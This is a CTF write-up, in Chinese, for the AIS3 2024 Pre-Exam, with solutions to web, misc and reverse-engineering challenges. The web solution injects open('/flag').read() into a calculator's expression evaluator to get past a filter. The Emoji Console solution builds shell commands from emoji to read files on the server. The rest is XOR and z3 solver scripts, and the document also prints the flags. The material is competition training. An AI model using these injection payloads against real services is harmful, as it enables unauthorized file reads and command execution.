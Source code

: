 ```yaml
---
title: AIS3 2024 Pre-Exam Writeup
date: 2024-06-08 20:43:15
tags: ['CTF']
categories: ['Competition']
description: AIS3 2024 Pre-Exam 解題記錄
---
```


## Web

### Evil Calculator 

後端只有擋空格與底線使用open function即可bypass

```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data "@payload" \
  http://chals1.ais3.org:5001/calculate
```

payload
```json
{
    "expression": "open('/flag').read()"
}
```
flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

## Misc

### Three Dimensional Secret 

pcapng檔後段有給3DP用的Marlin G-code
丟給Cura或Online G-code Viewer會得到如下圖之結果

![image](decompile.png)
flag: `AIS3{b4d1y_tun3d_PriN73r}`

### Emoji Console 

每一個emoji對應一組符號 利用🐱 ⭐可組合出`cat *`將後端原始碼印出
搭配對照表利用💿 🚩😓😑 🐱 ⭐湊成`cd flag;/:| cat *`輸出`flag-printer.py`

```py
#flag-printer.py

print(open('/flag','r').read())
```

將後半段替換成🐍 ⭐(`cd flag;/:| python *`) 🉐 flag
flag: `AIS3{🫵🪡🉐🤙🤙🤙👉👉🚩👈👈}`

## Reverse

### The Long Print

依照decompile的結果去除delay的部分照寫一遍即可解出flag

![image](gcode.png)

```python
secret = b'\x46\x41\x4b\x45\x0b\x00\x00\x00\x7b\x68\x6f\x6f\x0a\x00\x00\x00\x72\x61\x79\x5f\x02\x00\x00\x00\x73\x74\x72\x69\x08\x00\x00\x00\x6e\x67\x73\x5f\x06\x00\x00\x00\x69\x73\x5f\x61\x05\x00\x00\x00\x6c\x77\x61\x79\x07\x00\x00\x00\x73\x5f\x61\x6e\x04\x00\x00\x00\x5f\x75\x73\x65\x09\x00\x00\x00\x66\x75\x6c\x5f\x00\x00\x00\x00\x63\x6f\x6d\x6d\x01\x00\x00\x00\x61\x6e\x7a\x7d\x03\x00\x00\x00'

key = b'\x01\x10\x01\x3a\x0d\x1b\x4c\x4c\x2d\x00\x0b\x3a\x40\x4f\x45\x00\x1a\x32\x04\x31\x1d\x16\x2d\x3e\x31\x0a\x12\x2c\x03\x11\x3e\x0d\x2c\x00\x1a\x0c\x32\x14\x1d\x04\x00\x31\x00\x1a\x07\x08\x18'

secret_list = []
key_list = []

for i in range(0, len(secret), 4):
    secret_list.append(int.from_bytes(secret[i:i+4], "little"))
for i in range(0, len(key), 4):
    key_list.append(int.from_bytes(key[i:i+4], "little"))

flag = ""

mask = (1 << 8) - 1

for i in range(0, 24, 2):
    chunk = key_list[secret_list[i+1]] ^ secret_list[i]
    for j in range(4):
        flag += chr((chunk >> (j * 8)) & mask)
print(flag)
```

flag: `AISE{You_are_the_master_of_time_management!!!!?}`

### 火拳のエース 

輸入字串在經過`xor_strings` function後讓每個buffer的字元用以下`complex_function`內的運算進行處理後再與設定之密文進行比較

![image](decompile2.png)

可利用z3求解如下所示

```python
from z3 import *

index = []
index.append([i for i in range(8)])
index.append([i + 0x20 for i in range(8)])
index.append([i + 0x40 for i in range(8)])
index.append([i + 0x60 for i in range(8)])

key = []
key.append(b'\x0e\x0d\x7d\x06\x0f\x17\x76\x04')
key.append(b'\x6d\x00\x1b\x7c\x6c\x13\x62\x11')
key.append(b'\x1e\x7e\x06\x13\x07\x66\x0e\x71')
key.append(b'\x17\x14\x1d\x70\x79\x67\x74\x33')

secret = []
secret.append("DHLIYJEG")
secret.append("MZRERYND")
secret.append("RUYODBAH")
secret.append("BKEMPBRE")

for ind, k, sec in zip(index, key, secret):
    result = []
    for i, c in enumerate(sec):
        x = Int("x")
        s = Solver()
        s.add(x > 0x40, x < 0x5b)
        offset = ord(c) - 0x41
        ivar = ind[i] % 3 + 3
        if ind[i] % 3 == 0:
            s.add((((x - 0x41 + ind[i] * 0x11) % 0x1a) * ivar + 7) % \
                  0x1a == offset)
        elif ind[i] % 3 == 1:
            s.add((ivar * 2 + ((x - 0x41 + ind[i] * 0x11) % 0x1a)) % \
                  0x1a == offset)
        elif ind[i] % 3 == 2:
            s.add(((((x - 0x41 + ind[i] * 0x11) % 0x1a) - ivar) + 0x1a) % \
                  0x1a == offset)
        s.check()
        m = s.model()
        result.append(m[x].as_long())
        # print(m[x].as_long())
    
    for i, r in enumerate(result):
        print(chr(k[i] ^ r), end="")
print()

```

flag: `AIS3{G0D_D4MN_4N9R_15_5UP3R_P0W3RFU1!!!}`
